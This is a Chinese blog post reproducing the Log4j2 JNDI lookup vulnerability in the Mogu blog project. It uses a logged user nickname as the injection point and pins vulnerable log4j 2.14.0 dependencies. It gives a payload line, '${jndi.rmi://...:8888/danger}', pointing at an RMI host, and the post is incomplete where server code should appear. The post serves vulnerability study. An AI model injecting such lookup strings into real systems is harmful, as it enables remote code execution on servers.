 大家好，我是Aprilz。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，Aprilz看了看他们的聊天内容，一句话：**核弹级的漏洞**。

![image-20211211101637119](https://cdn.losey.top/blog/image-20211211101637119.png)

此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。



## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

Aprilz百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

Aprilz本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。

![](https://cdn.losey.top/blog/image-20211211103106525.png)

## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。

![](https://cdn.losey.top/blog/image-20211211103331791.png)

下面，Aprilz打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **
log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。

![image-20211211112402759](https://cdn.losey.top/blog/image-20211211112402759.png)

下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**

![image-20211211112738831](https://cdn.losey.top/blog/image-20211211112738831.png)

因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本

![image-20211211112845702](https://cdn.losey.top/blog/image-20211211112845702.png)

## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目

![image-20211211114404537](https://cdn.losey.top/blog/image-20211211114404537.png)

然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**





${jndi.rmi://192.168.12.1:8888/danger}





在注册服务前，输入命令start rmiregistry，会弹出以下方框



start rmiregistry



```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

